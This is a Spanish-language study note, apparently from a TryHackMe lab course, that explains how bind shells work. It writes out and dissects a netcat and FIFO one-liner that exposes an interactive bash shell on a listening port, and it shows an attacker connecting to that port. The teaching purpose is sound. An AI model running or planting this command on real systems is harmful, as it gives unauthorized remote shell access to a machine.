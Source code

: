 ```yaml
---
layout: apunte
title: "4. Bind Shell"
---
```


Como indica su nombre, una bind shell se relaciona a un puerto en el sistema comprometido y escucha una conexión. Cuando ocurre, expone una sesión shell al atacante. 

Este método puede ser usado cuando el sistema comprometido no permite las conexiones salientes, pero es menos popular ya que necesita permanecer activo y escuchar conexiones, lo que puede llevar a su detección.

----------------------
<h2>¿Cómo funcionan las bind shells?</h2>

----------------------------

<h4>Configurar la Bind Shell en el Objetivo</h4>
Creemos una bind shell. El atacante puede usar un comando como el de abajo en la máquina objetivo:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

-  `rm -f /tmp/f`: Elimina cualquier archivo pipe existente en `/tmp/f`. Esto es para crear una nueva pipe ahí sin conflictos.
- `mkfifo /tmp/f`: Crea una pipe o FIFO (First In First Out) en `/tmp/f`.
- `cat /tmp/f`: Lee la información de la pipe (espera input).
- `| bash -i 2>&1`: El output de cat se pipea a la instancia de shell (`bash -i`), que permite al atacante ejecutar comandos de manera interactiva. El `2>&1` redirecciona los errores al output (stderr a stdout), asegurándose de que cualquier error se manda de vuelta al atacante.
- `| nc -l 0.0.0.0 8080`: Comienza la conexión en modo escucha (`-l`) en todas las interfaces (`0.0.0.0`) y el puerto `8080`.
- `>/tmp/f`: Esta parte manda el output de los comandos de vuelta hacia el pipe, permitiendo comunicación bidireccional.

Este comando escuchará conexiones entrantes y expondrá una shell bash. Los puertos por debajo del 1024 necesitan ser ejecutados con privilegios elevados.

------------------------
<h4>Terminal en la Máquina Objetivo (Bind Shell Setup)</h4>
```shell
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Una vez ejecutado el comando, esperará por una conexión, como se muestra arriba.

-----------------------------
<h4>El Atacante se Conecta a la Bind Shell</h4>
Ahora que la máquina víctima está esperando conexiones, usamos Netcat de nuevo con el siguiente comando para conectarnos:

`nc -nv <IP_OBJETIVO> <PUERTO_OBJETIVO>`

- - `nc`: Llama a la herramienta Netcat.
- `-n`: Deshabilita la resolución DNS.
- `-v`: Activa verbose para obtener más información.
- `IP_OBJETIVO`: La dirección IP del objetivo donde la bind shell está corriendo.
- `PUERTO_OBJETIVO`: El puerto en el que el sistema objetivo escucha.

```shell
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```


